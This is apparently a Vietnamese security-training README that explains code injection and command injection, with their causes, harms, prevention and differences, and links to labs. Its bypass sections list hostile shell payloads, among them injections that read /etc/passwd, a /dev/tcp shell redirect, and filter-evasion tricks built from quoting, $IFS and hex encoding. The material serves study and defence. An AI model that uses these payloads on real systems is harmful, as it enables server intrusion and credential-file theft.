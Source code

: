 ```
Task 10:
+ Tìm hiểu về lỗ hổng code injection  và command injection.(Khái niệm , nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Nêu ra điểm khác nhau giữa hai lỗi.
+ Làm lab demo hai lỗi trên.
```

# Code Injection
### Khái niệm
Code Injection là loại tấn công mà kẻ tấn công có thể chèn mã độc vào ứng dụng. Khi đó, ứng dụng thực thi đoạn mã độc đó và gây ảnh hưởng đến người dùng, máy chủ.
### Nguyên nhân
Nguyên nhân chính của `code injection` là việc không kiểm tra đầu vào đúng cách, sử dụng các thư viện không an toàn hoặc không cập nhật, hay không sử dụng các biện pháp bảo vệ bảo mật như mã hóa dữ liệu. Ngoài ra còn do server có các chức năng hoặc  thực hiện các hàm nguy hiểm mà người dùng kiểm soát được như: `eval()`, `system()`,...
### Tác hại 
- Tác hại của `code injection` có thể rất nghiêm trọng. Kẻ tấn công có thể truy cập và thay đổi dữ liệu, lấy cắp thông tin nhạy cảm, thực hiện các hành động trái phép trên hệ thống máy chủ, thậm chí kiểm soát toàn bộ máy chủ.
- Ngoài ra còn có thể dẫn đến các cuộc tấn công khác như: SQL injection, XXS, Command injection, ...
### Bypass
- Sử dụng các ký tự để inject như: `;`, `|`, `&`, #`, ...
- Encode: URL, hex, ... để bypass backlist
### Cách phòng chống
- Hạn chế sử dụng các hàm có thể thực thi câu lệnh như: `system()`, `exec()`, `eval()`,...
- Xác thực đầu vào như sử dụng whitelist: chỉ cho phép các từ kiểm soát được.
- Mã hóa: escape HTML entities để hạn chế nguy cơ thành mã độc hoặc mã hóa dữ liệu bằng cách khác trước khi được lưu trữ hoặc chuyển lên internet.
- Sử dụng tường lửa, các công cụ phát hiện tấn công và thường xuyên cập nhật thư viện an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/Code%20Injection%20Lab">lab</a>

# Commmand Injection
### Khái niệm
Command injection là lỗ hổng mà kẻ tấn công có thể thực thi câu lệnh hệ điều hành trên máy chủ của ứng dụng đó
### Nguyên nhân
Nguyên nhân chính của command injection là thiếu kiểm tra đầu vào của ứng dụng hoặc sử dụng các hàm không an toàn trong xử lý đầu vào như: `system()`, `eval()`, `exec()`, ...
Khi những lỗ hổng này xảy, kẻ tấn công có thể thực hiện các hành động trái phép nh như xem, sửa đổi hoặc xóa dữ liệu, kiểm soát toàn bộ hệ thống, và thực hiện các cuộc tấn công khác như DoS,...
### Tác hại
Tác hại của command injection rất nghiêm trọng. Kẻ tấn công có thể kiểm soát hoàn toàn hệ thống, đọc và sửa đổi các tập tin quan trọng, truy cập và thay đổi cơ sở dữ liệu, thực hiện các hành động trái phép trên mạng. Ngoài ra còn có thể dẫn đến các cuộc tấn công khác để đạt được mục đích kể tấn công.
### Bypass:
- Exploit: `; ls` `&& ls`, `| ls`, `|| ls`,...
- Bypass space:
  - Sử dụng `<`: `cat</etc/passwd`
  - Sử dụng `$IFS`: `cat$IFS/etc/passwd`
  - Hoặc dùng shell: `sh</dev/tcp/127.0.0.1/4242`
  - ...
- Bypass words:
  - quote: `w'h'o'am'i`, `w"h"o"am"i`
  - blackslash, slash: `w\ho\am\i`, `/\b\i\n/////s\h`
  - $@: `who$()ami`
  - $(): `who$()ami`
  - `/usr/bin/who*mi` => `/usr/bin/whoami`
  - `$0` => bash
- Bypass characters:
  - `${HOME:0:1}`, `. | tr '!-0' '"-1'`, `${PATH:0:1}` => `/`
  - `${LS_COLORS:10:1}` => `;`
- Encoding hex: `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64`, `2f6574632f706173737764` => `/etc/passwd`
- RCE with 4 or 5 char: <a href="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-5-chars">here</a>
### Phòng chống
- Kiểm tra xác thực đầu vào: Dùng whitelist để cho phép các câu lệnh an toàn được thực thi, loại bỏ các ký tự có thể chèn mã đọc như: `;`, `"`, `'`, `|`, `&`,...
- Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng, ...
- Ngoài ra cần thường xuyên cập nhật ứng dùng, thư viên an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/CommandInjectionLab">lab</a>

  
## Khác nhau giữa Code injection và Command injection

- Code injection đề cập đến việc chèn 1 đoạn code độc hại và sẽ được thực thi trên ứng dụng đó. Khi ứng dụng chạy PHP thì sẽ chỉ chèn được code PHP hay với Nodejs thì là JavaScript,... Trong 1 số trường hợp thì lỗ hổng này thường chuyển sang lỗ hổng command injection.
- Command injection đề cập việc chèn 1 câu lệnh hệ thống trên máy chủ. Vì vậy câu lệnh tuy thuộc vào hệ điều hành máy chủ web hoặc là loại shell mà nó sử dụng. Lỗ hổng này cho kẻ tấn cống dễ dàng tấn công vào server hơn hoặc mở rộng chức năng của mặc định của ứng dụng, thực thi trực tiếp mà không cần chèn thêm code.
